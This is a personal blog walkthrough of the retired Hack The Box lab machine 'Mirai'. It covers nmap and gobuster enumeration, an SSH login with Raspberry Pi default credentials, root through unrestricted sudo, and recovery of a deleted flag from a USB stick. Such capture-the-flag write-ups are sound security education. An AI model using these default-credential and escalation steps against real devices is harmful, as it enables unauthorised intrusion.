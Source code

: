 ```yaml
---
layout: post
title: HTB Mirai Walkthrough
catogories: [htb, ctf, oscp]
---
```


Another retire box from HTB. Let have a look ..

![]()

I start as usual with nmap enumeration.

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.48 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-28 16:37 EST
Nmap scan report for 10.10.10.48
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.27 seconds
```

I also run full port scan..

```bash
nmap -p - -oA nmap/allports 10.10.10.48  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-28 16:38 EST
Stats: 0:14:43 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.21% done; ETC: 16:56 (0:03:52 remaining)
Nmap scan report for 10.10.10.48
Host is up (0.15s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
1193/tcp  open  fiveacross
32400/tcp open  plex
32469/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1080.92 seconds
```

I have few ports to look into it.

* port 22 is SSH
* port 53 is DNS
* port 80 for HTTP
* port 1193 fiveacross? which i have no idea what it is
* port 32400 plex which is media server to share content 
* port 3246 is unknown

I look into website but did not just blank screen

![]()

I run content discovery agains this website

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -o gobuster -u http://10.10.10.48 
===============================================================
Gobuster v3.0.1                                                                                                      
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48                                                                               
[+] Threads:        25                           
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/28 16:44:21 Starting gobuster
===============================================================
/admin (Status: 301)
/versions (Status: 200)
===============================================================
2021/02/28 16:53:13 Finished
===============================================================
```

/admin look really interesting. Lets look into this.

![]()

THis is older version of Pi-hole. I start looking for some exploits on internet but most of them require passwords or be authenticated. Pi-hole is dns backlist application to filter unwanted traffic. It was created to be used on raspberry-pi devices. As default this devices come with default credentials (pi:raspberry).

```bash
ssh pi@10.10.10.48
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password:
                          
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
                                               
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost                                                                  
                                                          
SSH is enabled and the default password for the 'pi' user has not been changed.                                      
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.                     
                                                                                                             
SSH is enabled and the default password for the 'pi' user has not been changed.                                      
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.                     
                                                          
pi@raspberrypi:~
```

I was in. Run sudo -l to see if i can run any program as root

```bash
pi@raspberrypi:/home $ sudo -l                           
Matching Defaults entries for pi on localhost:                                                                       
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
                                                                                                                     
User pi may run the following commands on localhost:                                                                 
    (ALL : ALL) ALL                                                                                                  
    (ALL) NOPASSWD: ALL   
```

I can quicklu run sudo su and become root. When i look into root folder flag was not there

```bash
root@raspberrypi:~# cat /root/root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

So flag is somewhere is USB stick. Lets see if any partition is mounted

```bash
root@raspberrypi:~# df
Filesystem     1K-blocks    Used Available Use% Mounted on
aufs             8856504 2837056   5546516  34% /
tmpfs             102396    4868     97528   5% /run
/dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
/dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs             255988       0    255988   0% /lib/live/mount/overlay
/dev/sda2        8856504 2837056   5546516  34% /lib/live/mount/persistence/sda2
devtmpfs           10240       0     10240   0% /dev
tmpfs             255988       8    255980   1% /dev/shm
tmpfs               5120       4      5116   1% /run/lock
tmpfs             255988       0    255988   0% /sys/fs/cgroup
tmpfs             255988       8    255980   1% /tmp
/dev/sdb            8887      93      8078   2% /media/usbstick
tmpfs              51200       0     51200   0% /run/user/999
tmpfs              51200       0     51200   0% /run/user/1000
```

I looked into /media/usbstick

```bash
root@raspberrypi:~# ls /media/usbstick/
damnit.txt  lost+found
root@raspberrypi:~# cat /media/usbstick/damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Hmm this was tricky a little but i used command string on /dev/sdb to get root flag :) 

I look more into ports I did not understand 32469 belong to Plex service. 1193 belong to pihole application called pihole-ftp. I believe Plex was rabbit hole because i never heard about any bypasses for it. 

I hope you enjoy reading it .....
